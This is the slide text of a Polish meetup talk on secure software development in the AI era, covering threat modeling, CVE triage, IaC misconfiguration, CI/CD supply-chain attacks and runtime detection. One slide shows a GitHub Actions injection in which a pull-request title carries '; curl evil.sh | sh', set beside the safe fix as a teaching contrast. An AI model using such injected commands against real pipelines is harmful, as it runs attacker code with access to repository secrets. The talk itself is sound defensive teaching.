

sekrety w .env, agent z shellem, stałe dostępy admina
dziurawa autoryzacja, brak modelu zagrożeń
CVE w bibliotekach, błędy w kodzie, misconfig w IaC
pipeline z kluczami do królestwa
uprawnienia, ekspozycja, dryf konfiguracji
prod
dokumenty, model zagrożeń
git push npm install
admin repo GH gh auth token
klucze do chmury, kubectl
Łódź JUG · 24.11.2026
Jak nie zwariować z podatnościami w erze AI
Secure SDLC w praktyce
Krzysztof Ciesielski SoftwareMill / VirtusLab
O mnie
Krzysztof Ciesielski
Developer → architekt → AppSec / DevSecOps
Kilkanaście lat w ekosystemie JVM
SoftwareMill / VirtusLab: Secure SDLC wewnętrznie i u klientów
Automatyzacje wykrywania zagrożeń, CI/CD, chmura
O czym będzie
Przejdziemy drogę zmiany od pomysłu do produkcji
Projekt
Kod + zależności
CI/CD
Runtime
Na każdym etapie jedno pytanie: co robią narzędzia i AI, a co musi zostać przy człowieku?
State of AppSec
„Kolejka rośnie szybciej niż maleje.”
Andrzej Dyjak Bezpieczny Kod
CVE rocznie · źródło: NVD via J. Gamblin, monthlyCVEStats
State of AppSec
…globalnie i u was
Globalnie: NVD (NIST)
NVD nie nadąża z analizą CVE. W IV 2026 ~29 tys. zaległych CVE dostało status „Not Scheduled”, czyli bez terminu analizy.
Pierwszeństwo mają tylko podatności aktywnie wykorzystywane (KEV) i software rządowy.
U was: Veracode SoSS 2026
82% firm ma security debt, 60% krytyczny.
Mediana: ~10% backlogu naprawiane miesięcznie.
Nawet NIST musiał zacząć priorytetyzować.
State of AppSec
Szukanie stało się tanie. Naprawa nie.
Szukanie podatności staniało
Claude Opus 4.6: 500+ podatności high w OSSkażda zweryfikowana przez człowieka
AISLE: 12 z 12 zero-dayów OpenSSLwszystkie ze styczniowego wydania 2026 zgłosił AISLE
XBOW: nr 1 na HackerOne (USA, VI 2025)ranking ludzkich bug bounty hunterów
Naprawa
curl zamyka bug bounty: 8× więcej zgłoszeń w tydzień, głównie AI slop
Nadal człowiek: zrozumieć, zmienić, przetestować, wdrożyć
Atakujący użyje najlepszego dostępnego modelu.
State of AppSec
Kierunek stały. Rośnie tylko tempo.
Średni time to exploit · źródło: Mandiant M-Trends (2026: dane za 2025)
Trivia
Oni wiedzą, dokąd to zmierza
Ben Hawkes
ex-lead Google Project Zero
→ Anthropic
Halvar Flake
Thomas Dullien, legenda RE
→ OpenAI
lcamtuf
Michał Zalewski, autor AFL
→ firma AI
Krok wstecz
Naprawiać szybciej? Musimy. Ale jak mieć mniej do naprawiania?
„Każdy problem bezpieczeństwa jest problemem jakości. Ale nie każdy problem jakości jest problemem bezpieczeństwa.”
Greg van der Gaast
Zamiast „jak to załatać?” pytaj „dlaczego to było exploitowalne?”
Krok wstecz
Dev + Ops → DevOps
observability · architektura · IaC
→
Dev + Sec + Ops
security jako część rzemiosła
„Security is not a department, it's a culture.”
Mackenzie Jackson, Field CTO, Aikido
Na każdym etapie: co robią narzędzia i AI, a co zostaje przy człowieku?
Projekt · threat modeling
Cztery pytania
Co budujemy?
Co może pójść nie tak?
Co z tym zrobimy?
Czy zrobiliśmy to dobrze?
AI może tu podpowiadać, ale wartością nie jest diagram, tylko zrozumienie w głowach zespołu.
Projekt · rola seniora
Dziura nie w kodzie, tylko w założeniu projektowym
Storm-0558: klucz do kont konsumenckich podpisywał tokeny, które otwierały skrzynki firmowe.
„Kultura bezpieczeństwa Microsoftu była nieadekwatna i wymaga przebudowy.”
Cyber Safety Review Board (DHS), 2024
500+ skrzynek w 22 organizacjach, w tym w rządzie USA. Wykrył to klient, nie Microsoft.
Za decyzje projektowe odpowiada człowiek. Tej odpowiedzialności nie oddasz AI.
Projekt · gdzie zacząć
Dobre rady
Modeluj zagrożenia
Dokumentuj model zagrożeń i decyzje bezpieczeństwa w markdown, w repobonus: agent AI też to przeczyta
Zmiana granicy zaufania = przegląd modelu w PRnowy endpoint, integracja, uprawnienie
Bezpieczny Kod blog o threat modelingu
Modelowanie zagrożeń: kompletny przewodnik
Sesja modelowania zagrożeń krok po kroku
Czym jest STRIDEto NIE metodyka, tylko lista kategorii zagrożeń (Spoofing, Tampering, Repudiation, Information disclosure, DoS, Elevation of privilege). Pomaga odpowiedzieć na „co może pójść nie tak?”
bezpiecznykod.pl/blog
Etap 2: kod i zależności
Ilu z was łatało Log4Shell w serwisie, który w ogóle nie logował danych od użytkownika?
Kod + zależności · ostatnie tygodnie
PHP2Shell 21 XNode2Shell 21 X4EverAble2Shell XIJava4Shell 17 XI · OpenJDK!NGINX2Shell 18 XIRuby2Shell 18 XIphpAfterShell 19 XI
…a kiedy go2sleep?
Kod + zależności · TOOLINGMAXXING
Z 376 tysięcy do garstki
Wszystkie CVE: ~376 tys.
Wykorzystywane w praktyce (KEV): ~1,7 tys.
Osiągalne z twojego kodu?
Na produkcji i wystawione?
To naprawiasz dziś
18%
krytycznych CVE zostaje krytycznych po dodaniu kontekstu runtime
Datadog, State of DevSecOps
KEVEPSSreachabilityekspozycjasam CVSS
Kod + zależności · IaC · TOOLINGMAXXING
IaC to też kod
resource"aws_security_group_rule""db" {
type = "ingress"
from_port = 5432cidr_blocks = ["0.0.0.0/0"]# ⚠ publicznie dostępne
}
Te same skanery, ten sam etap (PR / pre-commit). To, co zamierzałeś wdrożyć.
Kod + zależności · AI jako autor · TOOLINGMAXXING
AI pisze kod, AI sprawdza kod
Agenci piszą więcej kodu niż kiedykolwiek, a więcej kodu to więcej podatności. Skaner musi być w pętli agenta, nie dopiero w CI.
Etap 3: CI/CD
CI/CD
CI/CD to też kod. I ma klucze do królestwa.
OWASP Top 10:2025, A03: Software Supply Chain Failures. Najwyższa częstość występowania, prawie zero CVE.
CI/CD · 19 marca 2026
Trivy: skaner bezpieczeństwa jako broń
Atakujący force-pushuje złośliwy kod do 75 z 76 tagówaquasecurity/trivy-action
Każdy pipeline z uses: aquasecurity/trivy-action@v0.x odpala ten kod
Kod czyta sekrety z pamięci runnera i je wysyła
Tag v0.35.0 nietknięty, bo miał immutable releases
Pinuj SHA. Ale to nie wystarczy.
Imposter commit: złośliwy commit w forku actions/checkout. Przez wspólną sieć forków actions/checkout@<sha> go uruchomi. SHA gwarantuje, że kod się nie zmienił, ale nie mówi, z którego repo pochodzi.
PR: „bump checkout (security fix)”. W review widać actions/checkout@a1b2c3…: znajoma nazwa i 40 znaków, których nikt nie sprawdza.
CI/CD · jak nie zwariować (1/2)
Tooling złapie
za szerokie uprawnienia GITHUB_TOKEN→ permissions: per job, minimum
pull_request_target + checkout kodu z PR„pwn request”: kod z forka odpalony z waszymi sekretami i tokenem z zapisem
niepinowane akcje@v1 jutro może znaczyć coś innego
injection przez ${{ github.event.* }}przykład obok
długożyjące sekrety zamiast OIDC
# ❌ tekst wstawiony do skryptu przed wykonaniem
run: echo "${{ github.event.pull_request.title }}"# tytuł PR:"; curl evil.sh | sh ## ✅ przez zmienną: to tylko dane
env:
TITLE: ${{ github.event.pull_request.title }}
run: echo "$TITLE"
Załóż, że akcja będzie złośliwa: minimalny token, OIDC, sekrety per job, kontrola ruchu wychodzącego.
CI/CD · jak nie zwariować (2/2)
Człowiek musi
rozumieć model zagrożeń CI/CD
śledzić nowe techniki: tagi → SHA → imposter commits
decydować, komu ufamy:
Akcje
oficjalne (actions/*, vendor) > popularne community > jednoosobowe. Im mniej z marketplace, tym lepiej. Prosty krok = 3 linijki basha.
Ludzie
Kto ma write do repo? CODEOWNERS na .github/workflows/, branch protection z wymaganym review. Zmiana workflow = zmiana uprawnień.
Podpisy
Wymagaj podpisanych commitów. Ale „Verified” mówi, kto podpisał, a nie że to ktoś zaufany.

Polecam: „Beyond SHA Pinning: Security for CI/CD Pipelines” Andoni Alonso & Paco Sanchez, CfgMgmtCamp 2026
Etap 4: runtime
Runtime · chmura
CSPM
To, co faktycznie działa, a nie to, co zamierzałeś w IaC
Dryf: kliknięte w konsoli, hotfix o 3 w nocy
Zasoby spoza Terraforma
Runtime
Wykrywaj i zapobiegaj
Wykrywanie
Kubernetes: konfiguracja, działające obrazy
VM i kontenery: podatne pakiety na żywo
Tetragon: eBPF, shell w kontenerze, dziwne połączenia
Powierzchnia ataku: co wystawiacie do internetuna start za darmo: moje.cert.pl (CERT Polska)
Zapobieganie · security by design
Kyverno: nie wdrożysz niepodpisanego / uprzywilejowanego